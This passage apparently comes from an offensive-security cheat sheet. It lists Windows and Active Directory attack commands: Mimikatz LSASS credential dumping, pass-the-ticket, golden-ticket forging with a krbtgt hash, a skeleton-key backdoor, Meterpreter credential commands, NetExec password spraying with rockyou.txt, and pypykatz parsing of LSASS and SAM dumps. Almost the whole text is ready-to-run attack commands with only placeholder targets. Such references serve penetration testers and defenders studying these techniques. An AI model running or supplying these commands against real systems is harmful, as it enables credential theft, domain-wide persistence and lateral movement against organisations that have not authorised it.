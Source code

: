 ```c
.\mimikatz.exe
sekurlsa::minidump /users/admin/Desktop/lsass.DMP
sekurlsa::LogonPasswords
meterpreter > getprivs
meterpreter > creds_all
meterpreter > golden_ticket_create
```

##### Pass the Ticket

```c
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```

##### Forging Golden Ticket

```c
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
misc::cmd
klist
dir \\<RHOST>\admin$
```

##### Skeleton Key

```c
privilege::debug
misc::skeleton
net use C:\\<RHOST>\admin$ /user:Administrator mimikatz
dir \\<RHOST>\c$ /user:<USERNAME> mimikatz
```

#### NetExec

```c
netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --bloodhound -ns <RHOST> -c all
netexec winrm <RHOST> -u '<USERNAME>' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```

#### pypykatz

```c
pypykatz lsa minidump lsass.dmp
pypykatz registry --sam sam system
```

### Exploitation Tools
